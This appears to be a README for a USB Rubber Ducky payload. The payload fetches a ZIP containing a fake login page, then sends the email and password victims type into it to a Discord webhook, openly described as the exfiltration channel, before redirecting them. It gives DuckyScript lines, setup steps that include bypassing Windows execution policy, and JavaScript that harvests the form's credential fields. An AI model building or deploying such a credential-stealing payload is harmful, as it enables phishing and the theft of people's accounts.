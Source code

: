 ```DuckyScript
    DELAY 1000
    CTRL-ALT t
    DELAY 2000

    REM Actual script...
```

# Getting Started

## Dependencies

* Internet Connection
* You own ZIP link
* Discord webhook (or whatever you want to use for the exfiltration)
* Python
* 'ExecutionPolicy Bypass' if used in Windows 10/11

## Settings

* Set the Discord wehbook (or whatever you want) into the script.js file at line 3
```JavaScript
// SET YOUR DISCORD WEBHOOK or whatever you want to exfiltrate the data
const discord_webhook_url = "https://discord.com/api/webhooks/123/abc";
```

* Set the redirect link that you want to use when the payload is sent
```JavaScript
// DEFINE the redirect link preferred
window.location.href = "https://www.example.com";
```

* Set the ZIP link as described in the payload.txt
```DuckyScript
REM REQUIRED - Replace example.com/file.zip with your own ZIP link. The zip should contian the files ['login.html', 'script.js']
DEFINE #ZIP_LINK example.com/file.zip
```

## JavaScript/HTML Documentation

- This JavaScript code aims to send the credentials entered in an HTML form to a Discord Webhook or any other remote server. The code is written as an asynchronous function named **send_login()**, which is called when the user presses the login button in the HTML form.
```JavaScript
async function send_login() {
    // ...
}
```

- The first thing the code does is to set the **discord_webhook_url** constant to the Discord Webhook URL where the message containing the credentials will be sent. Then, the **email** and **password** values are retrieved from the form input fields using their **id** attributes.
```JavaScript
    // SET YOUR DISCORD WEBHOOK or whatever you want to exfiltrate the data
    const discord_webhook_url = "https://discord.com/api/webhooks/123/abc";

    // Retrieve data from POST form
    const email = document.getElementById('email').value;
    const password = document.getElementById('password').value;
```
